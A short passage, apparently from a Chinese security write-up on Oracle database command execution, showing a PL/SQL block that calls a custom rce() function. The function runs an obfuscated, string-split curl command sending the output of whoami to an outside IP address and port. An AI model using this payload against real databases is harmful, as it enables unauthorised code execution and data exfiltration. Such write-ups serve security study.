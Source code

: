 [![](assets/1710899076-8079268e56e2b1a6696f98546605f412.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101448-25c98766-d5df-1.png)

创建完毕后我们只需要和上面一样，用 IF 语句去调用 rce 方法。

```plain
BEGIN
if (rce('/bin/cu'||'rl ht'||'tp://8.130.24.188:7775?a=`/bin/whoami`') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```
